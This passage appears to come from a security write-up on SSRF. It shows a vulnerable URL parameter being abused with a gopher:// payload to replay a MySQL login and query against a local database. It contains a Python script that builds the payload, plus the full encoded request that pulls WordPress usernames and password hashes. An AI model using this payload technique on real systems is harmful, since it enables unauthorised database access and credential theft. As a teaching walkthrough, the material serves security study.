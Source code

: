 The mentioned article shows us how to simulate the MySQL request in a local environment, retrieve data transmitted and replay them. This means that MariaDB has no specific protection against regame or authenticity.


![](/img/articles/realgsmoveinsilencelikelasagna/red_10.gif)


Displayed bytes at the end of the above GIF will be used as payload to get the username and hashed password from the WordPress database. With a little python script, stolen to our asian friends, I will be able to generate the complete payload:

```python
#!/usr/bin/python2

def result(s):
  a = [s[i:i+2] for i in xrange(0, len(s), 2)]
  return "gopher://127.0.0.1:3306/_%" + "%".join(a)

if __name__ == "__main__":
  import sys
  s = sys.argv[1]
print result(s)
```

In fact, this python script will just add `gopher://127.0.0.1:3306/_` in front of our payload and add a `%` every two characters. Otherwise, the web server will not take the data as hex data.

```bash
host $ cat ssrf_mysql2 | xxd -p | tr -d '\n'
ac00000185a23f000000000121000000000000000000000000000000000000000000000077705f6d7973716c5f7573657200006d7973716c5f6e61746976655f70617373776f72640066035f6f73054c696e75780c5f636c69656e745f6e616d65086c69626d7973716c045f70696404393230360f5f636c69656e745f76657273696f6e0731302e312e3337095f706c6174666f726d067838365f36340c70726f6772616d5f6e616d65056d7973716c300000000373656c65637420757365725f6c6f67696e2c757365725f706173732066726f6d2077705f64622e77705f75736572730100000001

host $ ./parse.py ac00000185a23f000000000121000000000000000000000000000000000000000000000077705f6d7973716c5f7573657200006d7973716c5f6e61746976655f70617373776f72640066035f6f73054c696e75780c5f636c69656e745f6e616d65086c69626d7973716c045f70696404393230360f5f636c69656e745f76657273696f6e0731302e312e3337095f706c6174666f726d067838365f36340c70726f6772616d5f6e616d65056d7973716c300000000373656c65637420757365725f6c6f67696e2c757365725f706173732066726f6d2077705f64622e77705f75736572730100000001
gopher://127.0.0.1:3306/_%ac%00%00%01%85%a2%3f%00%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%77%70%5f%6d%79%73%71%6c%5f%75%73%65%72%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%04%39%32%30%36%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%07%31%30%2e%31%2e%33%37%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%30%00%00%00%03%73%65%6c%65%63%74%20%75%73%65%72%5f%6c%6f%67%69%6e%2c%75%73%65%72%5f%70%61%73%73%20%66%72%6f%6d%20%77%70%5f%64%62%2e%77%70%5f%75%73%65%72%73%01%00%00%00%01
```

By filling the "URL" input of `test.php` with our ugly payload, there is a nice return in front of our eyes: 


![](/img/articles/realgsmoveinsilencelikelasagna/red_11.png)
